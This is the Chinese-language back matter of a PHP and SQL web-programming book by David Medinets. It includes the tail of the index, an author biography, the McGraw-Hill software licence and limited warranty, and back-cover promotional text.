    - 表之间关系的示例，330–332
    - 说明，117, 118
    - HTML 缓存与创建，281
    - 连接表，336–337
    - 关联表，337–342
    - 表中的记录
        - 添加，129
        - 选择，131
        - 删除，140
    - 引用完整性与，346–347
    - 表中的行，193

## 标签

### HTML

- 注释，275–278
- 字体标签，279–280
- 头部标签，265–268, 306
- 标题级别标签，307
- 段落标签 `<p>`，307, 381–382
- `<BODY>...</BODY>`，307
- `<BR>`，307
- `<FORM>...</FORM>`，307
- `<H1>...</H1>`，307
- `<HEAD>...</HEAD>`，306
- `<HTML>...</HTML>`，307
- `<INPUT>`，308–310
- `<p>`，307, 381–382
- `<SELECT>...</SELECT>`，310
- `<TEXTAREA>...</TEXTAREA>`，311
- `<TITLE>...</TITLE>` 标签，273–275

### XML

- 平衡，384
- 大小写敏感，384
- 文档类型，261
- 空标签，387
- 功能，380
- 另请参见具体标签的名称

- tar（磁带归档工具），12
- tar 命令，14
- 三元运算符，54–55
- 应用程序测试
    - MyODBC，29–30
    - MySQL，29–30
    - ODBC，29–30
- 文本框，311
- 文本字面量，34–37
- 文本解析。参见模式匹配
- `<TEXTAREA>...</TEXTAREA>` 标签，311
- `<TITLE>...</TITLE>` 标签，273–275
- 真/假逻辑，实现，62–66
- TYPE 修饰符，308

## U

- 一元运算符，58–60
- Unicode 标准与 XML，385
- 统一资源定位符（URL）。参见 URL（统一资源定位符），编码与解码
- update 语句，120, 129–131
- URL（统一资源定位符），编码与解码，297–299
- Usenet 新闻组，11
- 用户跟踪，360–362

## V

- 有效的 XML 文档，396
- VALUE 修饰符，308
- 变量函数，183–186
- 变量插值
    - 示例，222
    - 说明，46–49
    - 手动实现，228–229
- 变量
    - `$PHP_SELF`，152
    - `$this`，244
    - 数组
        - 赋值，40
        - 用途，38, 40
        - 获取值，41–44
    - 更改值，42
    - 控制作用域，95–96
    - 动态命名，49
    - 环境变量，294–297, 301
    - 标志变量，84–85
    - 循环变量，79–81
    - 对象，38
    - 用途，38
    - 标量
        - 赋值，39–40
        - 命名，38–39
        - 用途，38
    - 引用，253–254
    - 测试变量间的关系，57–58
- 另请参见具体变量的名称

## W

- Web 浏览器
    - 判断是否支持 cookie，302–304
    - 使用其显示 XML，410–412
    - 显示 HTML 时的差异，382
- Web 服务器，PHP 在其上的执行，5
- 网站
    - 创建多语言网站，189–192
    - 动态网站的优势，288
    - 解析网站信息，417–421
    - 处理网站信息，421–425
    - 从网站检索信息，416–417
    - 搜索网站，292
- 格式正确的 XML 文档，396
- where 子句，134–136
- while 关键字，81–82
- 空白字符
    - 从字符串中删除，226–227
    - XML 对其的处理，384, 389

## X

- XML（可扩展标记语言）
    - 与 HTML 的区别，384–385
    - 起源，380
    - 资源，412
    - 与 SGML 的相似之处，380
    - Unicode 标准与，385
- XML 应用程序，407–409
- XML 声明，393
- XML 文档
    - 外观，410–412
    - 注释，393
    - 定义，386
    - 提取信息，416–417
    - 合并其他文档，390–391
    - 整体结构，393–395
    - 解析信息，417–421
    - 处理信息，421–425
    - 有效，396
    - 格式正确，396
- XML 解析器，385–386, 417–421
- XML 处理器，385–386
- XML 标签
    - 平衡，384
    - 大小写敏感，384
    - 文档类型，261
    - 空标签，387
    - 功能，380, 384
- xml:lang 属性，388

## Z

- 零宽度负向断言，212
- 零宽度正向先行断言，211–212

- `<BODY>...</BODY>` 标签，307
- `<BR>` 标签，307
- `<FORM>...</FORM>` 标签，307
- `<H1>...</H1>` 标签，307
- `<HEAD>...</HEAD>` 标签，265–268, 306
- `<HTML>...</HTML>` 标签，307
- `<INPUT>` 标签，308–310
- `<SELECT>...</SELECT>` 标签，310
- `<TEXTAREA>...</TEXTAREA>` 标签，311
- `<TITLE>...</TITLE>` 标签，273–275

## 关于作者

David Medinets 自 1980 年开始编程，当时他从一台 TRS-80 Model 1 入门。他至今仍怀念那些能通过交叉接线在显示器上生成有趣字符的日子。自那时起，他曾在 UNIX 机器上调试 Emacs，在 VAX 系统上工作，也摆弄过 DOS 微型计算机。David 与 Kathryn 结婚，居住在新泽西州西北部。他经营着 Eclectic Consulting 公司，著有多本书籍，包括 *Perl 5 by Example* 和 *UNIX Shell Programming Tools*。可通过 *medined@mtolive.com* 联系 David。

## 软件与信息许可

本磁盘上的软件和信息（统称为"产品"）属于 The McGraw-Hill Companies, Inc.（"McGraw-Hill"）的财产，受美国版权法和国际版权条约的保护。你必须像对待一本书一样对待本产品，但你可以将其复制到计算机中使用，也可以制作产品的存档副本，仅用于备份软件和保护你的投资免受损失。

所谓"像对待一本书一样"，McGraw-Hill 的意思是，例如，本产品可被任意数量的人使用，也可自由地从一个计算机位置转移到另一个位置，只要产品（或产品的任何部分）不可能在一个位置或一台计算机上使用的同时又在另一个位置使用即可。正如一本书不能同时被两个不同地方的两个人阅读一样，本产品也不能同时在两个不同的地方使用（除非，当然，侵犯了 McGraw-Hill 的权利）。

McGraw-Hill 保留随时更改或修改产品内容的权利。

本协议在终止前一直有效。如果你未能遵守本协议的任何条款，协议将自动终止且不另行通知。如因你违约而导致协议终止，你必须销毁或删除安装在任何计算机系统上的所有产品副本或为备份目的制作的副本，并从你的数据存储设施中彻底删除本产品。

## 有限保证

McGraw-Hill 保证本磁盘中的物理磁盘（磁盘们）在自购买之日起六十天内无材料和工艺缺陷。如果 McGraw-Hill 在保证期内收到有关材料或工艺缺陷的书面通知，且 McGraw-Hill 认定该通知属实，McGraw-Hill 将更换有缺陷的磁盘（磁盘们）。请将请求发送至：

Customer Service
McGraw-Hill
Gahanna Industrial Park
860 Taylor Station Road
Blacklick, Ohio 43004-9615

因违反本有限保证而产生的全部及排他性责任和补救措施仅限于更换有缺陷的磁盘（磁盘们），不包括也不延伸任何其他损害赔偿的主张或权利，包括但不限于利润损失、数据丢失、软件使用损失、或特殊、附带、间接损害赔偿或类似主张，即使 McGraw-Hill 已被特别告知此类损害的可能性。在任何情况下，McGraw-Hill 对你或任何其他人的任何损害赔偿责任均不超过建议零售价或实际支付的产品使用许可费中的较低者，无论以何种形式提出主张。

The McGraw-Hill Companies, Inc. 特此声明不承担任何其他明示或默示的保证，包括但不限于任何适销性或特定用途适用性的默示保证。具体而言，McGraw-Hill 不表示或保证本产品适合任何特定用途，任何适销性的默示保证仅限于涵盖物理磁盘（磁盘们）（而非软件或信息）的有限保证的六十天期限内，除此之外均被明确且具体地排除。

本有限保证赋予你特定的法定权利；你可能还拥有因州而异的其他权利。某些州不允许排除附带或间接损害赔偿，或限制默示保证的期限，因此上述部分条款可能不适用于你。

本协议构成双方关于使用产品的完整协议。任何采购订单的条款对本协议的条款不产生任何影响。McGraw-Hill 未在任何时候坚持严格执行本协议不构成对本协议下任何权利的放弃。本协议应根据纽约州法律进行解释和管辖。如果本协议的任何条款被认定为违反法律，该条款将在最大许可范围内予以执行，其余条款将继续保持完全效力。


随处可得的、最全面的用于创建动态网页的 PHP 编程工具集

随着网络的核心日益转向数据库，UNIX 程序员需要一套能够协同工作的完整工具，以及一个用于构建动态内容的平台。在这本开创性的书/CD-ROM 组合包中，程序员们获得了一套全面的支持工具，用于使用所有开源软件开发最先进的、动态的 Web 应用程序和数据库。

本书由知名作者大卫·梅迪内特以清晰精确的笔法撰写，它将教你如何利用屡获殊荣的 PHP 和 SQL Web 工具的力量来编写基于浏览器的应用程序。书中全面探讨了编程语言、一个开源数据库引擎以及 Red Hat Linux 操作系统，让你清晰地了解这项蓬勃发展的、爆炸性的技术。

此外，附带的 CD-ROM 包含 PHP 编程语言、SQL 数据库引擎、Red Hat Linux 5.2 操作系统、示例应用程序和代码清单，以及书中包含的所有软件文档。

## UNIX 管理员的完整编程工具包

-   PHP 基础
-   数据库基础
-   高级 PHP
-   应用程序基础
-   应用程序示例
-   扩展 PHP

## 关于作者

大卫·梅迪内特是十二本书的作者或合著者，包括由 Que 出版的 *Perl 5 by Example*，自 1980 年以来一直在 UNIX 系统上工作。他是 Eclectic Consulting 的创始人和总裁。
